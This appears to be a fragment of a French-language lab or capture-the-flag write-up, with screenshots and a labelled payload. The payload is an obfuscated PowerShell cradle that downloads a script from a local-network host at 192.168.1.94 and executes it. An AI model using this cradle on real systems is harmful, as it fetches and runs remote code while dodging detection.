 `TOKEN` puis `ALL`

![cc061145f9b2f44246a496bb37354fab.png](/img/690d8dd319d24f7d9397dc3502bba7e7.png)

`1`

![1310536f1b23bd1d887ed6914d36e9ac.png](/img/66fa555b375249fa9b3b7301d4bfaf88.png)

**Payload:** `&("{1}{0}"-f'EX','I') ((&("{1}{0}{2}"-f 'w-obj','ne','ect') ("{3}{0}{2}{1}" -f'et.web','ent','cli','n')).("{1}{0}{3}{2}" -f 'nloads','dow','ring','t').Invoke(("{0}{1}{4}{3}{2}"-f'http://192.1','68.1.94:','a','/','80')))`
